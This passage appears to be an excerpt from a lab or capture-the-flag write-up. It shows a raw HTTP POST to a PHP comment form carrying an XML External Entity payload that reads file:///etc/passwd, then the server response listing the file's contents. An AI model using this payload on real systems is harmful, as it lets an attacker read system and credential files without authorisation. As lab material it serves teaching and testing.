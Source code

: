   ```
  Request encoded payload:

  POST /home.php HTTP/1.1
  Host: 10.10.167.181:8765
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 246
  Origin: http://10.10.167.181:8765
  Connection: keep-alive
  Referer: http://10.10.167.181:8765/home.php
  Cookie: PHPSESSID=rtodpf8g5e6gecq7u4humludj6
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  xml=<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f>
  <!DOCTYPE+foo+[
  +++<!ELEMENT+foo+ANY+>
  +++<!ENTITY+xxe+SYSTEM++"file%3a///etc/passwd"+>]>
  <comment>
  ++<name>Joe+Hamd</name>
  ++<author>Barry+Clad</author>
  ++<com>%26xxe%3b</com>
  </comment>
  ```

  ```
  Response:

  <h3>Comment Preview:</h3>
  <p>Name: Joe Hamd</p>
  <p>Author : Barry Clad</p>
  <p>Comment :<br> 
  root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
  systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
  systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
  systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
  syslog:x:104:108::/home/syslog:/bin/false
  _apt:x:105:65534::/nonexistent:/bin/false
  lxd:x:106:65534::/var/lib/lxd/:/bin/false
  messagebus:x:107:111::/var/run/dbus:/bin/false
  uuidd:x:108:112::/run/uuidd:/bin/false
  dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
  sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
  ```